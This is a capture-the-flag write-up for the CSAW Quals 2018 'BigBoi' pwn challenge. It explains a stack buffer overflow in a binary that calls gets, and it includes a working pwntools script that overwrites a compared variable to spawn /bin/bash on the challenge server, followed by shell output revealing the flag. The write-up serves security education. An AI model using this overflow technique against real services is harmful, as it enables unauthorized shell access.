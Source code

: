 # BigBoi

## Information

*CTF*: CSAW Quals 2018

*Category*: PWN

*Point Value*: 25

*Writeup Author*: github.com/Helithumper

## Challenge Description

```bash
    bigboy
    Category: Pwn Points: 25 Solved: 656 Description:

    Only big boi pwners will get this one!

    nc pwn.chal.csaw.io 9000
```

We were given an ELF to work with. First thing I did was run `file` on it:
```bash
    boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```
So we were dealing with a 64 bit ELF.

Upon running, I found the following:
```bash
    ➜  boi ./boi
    Are you a big boiiiii??
    yes
    Wed Sep 19 04:27:55 UTC 2018
```
So when we give it text, it gives us the current time UTC... hmm

Disassembler time!

![Binary Ninja Disassembly](ctfs/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi1.png)

So what we see is that a conditional is run after `read` is called to compare `eax` with `0xcaf3baee`. If our value is not equal to `0xcad3baee`, then `/bin/date` is run. Else `/bin/bash` is run. You can guess which path of execution we want...

So from what I can see here i'm betting it's a buffer overflow given that `gets` is used. `gets` doesn't check for buffer sizes and is thus extremely volatile. If I name both the variable that `gets` puts our input into as well as the variable being compared to `0xcaf3baee` in Binja, then we can see offsets:

![Stack Overview](ctfs/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi2.png)

So we know that there is a difference of:

    0x38-0x28 = 16 Bytes

between our variables. The difference we see, however, is that our variable is actually at that offset `+0x4`.
![+0x4](ctfs/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi3.png)
So we add 4 to 16 Bytes and we get an offset of 20 Bytes.

With this knowledge, we can then create our payload:
```python
    from pwn import *


    p = remote('pwn.chal.csaw.io',9000)

    print(p.recvline())

    payload = 'A'*20 + p64(0xCAF3BAEE)

    # gdb.attach(p)

    print(payload)
    p.sendline(payload)


    p.interactive()
```
When run, we get the following:
```bash
    me@mycomputer ~/D/c/c/boi> python exploit.py
    [+] Opening connection to pwn.chal.csaw.io on port 9000: Done
     _    ___        ____   ___  _ _ _ _

    AAAAAAAAAAAAAAAAAAAA���\x00\x00\x00
    [*] Switching to interactive mode
    | |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
    | '_ \| |/ _` | |  _ \| | | | | | | |
    | |_) | | (_| | | |_) | |_| | | | | |
    |_.__/___\__, | |____/ \___/|_|_|_|_|
             |___/
    ***************************************
    Are you a big boiiiii??
    AAAAAAAAAAAAAAAAAAAA���^@^@^@^@
    $ ls
    ls
    art.txt  boi  flag.txt    run.sh
    $ cat flag.txt
    cat flag.txt
    flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
    $
```
So yay. Shell and flag